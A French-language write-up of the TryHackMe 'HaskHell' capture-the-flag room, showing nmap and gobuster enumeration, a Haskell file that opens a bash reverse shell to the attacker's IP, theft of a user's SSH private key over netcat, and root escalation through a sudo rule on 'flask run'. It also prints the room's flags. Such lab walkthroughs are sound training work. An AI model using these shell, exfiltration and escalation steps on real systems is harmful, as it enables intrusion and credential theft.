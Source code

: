 # HaskHell #

## Task 1 HaskHell ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.111.245 haskhell.thm' > /etc/hosts" 
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A haskhell.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-31 16:32 CEST
Nmap scan report for haskhell.thm (10.10.111.245)
Host is up (0.033s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/31%OT=22%CT=1%CU=33028%PV=Y%DS=2%DC=T%G=Y%TM=612E3DB
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   32.00 ms 10.9.0.1
2   32.24 ms haskhell.thm (10.10.111.245)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.09 seconds

```
La scan nmap nous montre 2 services qui sont : 
Le service SSH sur le port 22.   
Le service HTTP sur le port 5001.    

![page1](./Task1-01.png)   

Sur la page principale du site on trouve pas grand chose à part rendre un devoir en haskell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://haskhell.thm:5001 -w /usr/share/dirb/wordlists/common.txt -q
/submit               (Status: 200) [Size: 237]
```

On trouve un répertoire caché subit.    

```haskell
tim@kali:~/Bureau/tryhackme/write-up$ cat shell.hs 
#!/usr/bin/env runhaskell

import System.Process

main = do
callCommand "bash -c 'bash -i >& /dev/tcp/10.9.228.66/1234 0>&1'"
```

On crée un shell en haskell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port 1234 pour avoir se connecter sur le reverse shell.   

![page2](./Task1-02.png)   

On téléverse le reverse shell sur le site.  
On obtient un shell.   

**Get the flag in the user.txt file.**

```bash
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.221.103] 44376
bash: cannot set terminal process group (830): Inappropriate ioctl for device
bash: no job control in this shell
flask@haskhell:~$ id
id
uid=1001(flask) gid=1001(flask) groups=1001(flask)
flask@haskhell:~$ 

flask@haskhell:~$ ls /home/
ls /home/
flask
haskell
prof

flask@haskhell:/home/prof$ ls
ls
__pycache__
user.txt

flask@haskhell:/home/prof$ cat user.txt
cat user.txt
flag{academic_dishonesty}
```

On a une connection au shell.   
On remarque un autre utilisateur qui est prof.    
Dans prof il y a un fichier qui est user.txt on le lit.    

La réponse est : flag{academic_dishonesty}    

**Obtain the flag in root.txt**

```bash
flask@haskhell:/home/prof$ ls -al
ls -al
total 44
drwxr-xr-x 7 prof prof 4096 May 27  2020 .
drwxr-xr-x 5 root root 4096 May 27  2020 ..
-rw-r--r-- 1 prof prof  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 prof prof 3771 Apr  4  2018 .bashrc
drwx------ 2 prof prof 4096 May 27  2020 .cache
drwx------ 4 prof prof 4096 May 27  2020 .gnupg
drwxrwxr-x 3 prof prof 4096 May 27  2020 .local
-rw-r--r-- 1 prof prof  807 Apr  4  2018 .profile
drwxrwxr-x 2 prof prof 4096 May 27  2020 __pycache__
drwxr-xr-x 2 prof prof 4096 May 27  2020 .ssh
-rw-r--r-- 1 root root   26 May 27  2020 user.txt
flask@haskhell:/home/prof$ cd .ssh	
cd .ssh

flask@haskhell:/home/prof/.ssh$ ls -al
ls -al
total 20
drwxr-xr-x 2 prof prof 4096 May 27  2020 .
drwxr-xr-x 7 prof prof 4096 May 27  2020 ..
-rw-rw-r-- 1 prof prof  395 May 27  2020 authorized_keys
-rw-r--r-- 1 prof prof 1679 May 27  2020 id_rsa
-rw-r--r-- 1 prof prof  395 May 27  2020 id_rsa.pub
flask@haskhell:/home/prof/.ssh$ 

```

Dans le dossier prof on peut récupérer la clef privée id_rsa dans .ssh

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lp 1234 > id_rsa
-----------------------
flask@haskhell:/home/prof/.ssh$ nc 10.9.228.66 1234 < id_rsa
nc 10.9.228.66 1234 < id_rsa
```

On transfert le fichier.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ chmod 600 id_rsa 
tim@kali:~/Bureau/tryhackme/write-up$ ssh -i id_rsa prof@haskhell.thm 
The authenticity of host 'haskhell.thm (10.10.221.103)' can't be established.
ECDSA key fingerprint is SHA256:hx58wuaesK7WY+jWhWJdlCKNY2TR3P0MqLqqDTwVtZA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'haskhell.thm,10.10.221.103' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Aug 31 15:28:25 UTC 2021

  System load:  0.08               Processes:           96
  Usage of /:   26.2% of 19.56GB   Users logged in:     0
  Memory usage: 45%                IP address for eth0: 10.10.221.103
  Swap usage:   0%


39 packages can be updated.
0 updates are security updates.


Last login: Wed May 27 18:45:06 2020 from 192.168.126.128

$ sudo -l
Matching Defaults entries for prof on haskhell:
    env_reset, env_keep+=FLASK_APP, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prof may run the following commands on haskhell:
    (root) NOPASSWD: /usr/bin/flask run
```

On configure id_rsa.    
On se connect sur le compte prof.   
On voit que la configuration sudo nous permet d'exécuter flask run sans mot de passe avec les droits root.  

```bash
$ file /usr/bin/flask
/usr/bin/flask: Python script, ASCII text executable

$ cat /usr/bin/flask
#!/usr/bin/python3
# EASY-INSTALL-ENTRY-SCRIPT: 'Flask==0.12.2','console_scripts','flask'
__requires__ = 'Flask==0.12.2'
import re
import sys
from pkg_resources import load_entry_point

if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw?|\.exe)?$', '', sys.argv[0])
    sys.exit(
        load_entry_point('Flask==0.12.2', 'console_scripts', 'flask')()
    )

$ echo 'import pty;pty.spawn("/bin/bash")' > script.py
$ export FLASK_APP=script.py
$ sudo /usr/bin/flask run
root@haskhell:~# id
uid=0(root) gid=0(root) groups=0(root)
root@haskhell:~# cat /root/root.txt
flag{im_purely_functional}
```

On créer un script qui exécute un shell.   
On indique à flask d'exécuter le script en mettant le nom du script dans la variable d'environnement FLASK_APP.    
On exécute flase run avec les droits root.   
On obtient un shell root.  
On lit le fichier root.txt dans root.   

La réponse est : flag{im_purely_functional}   
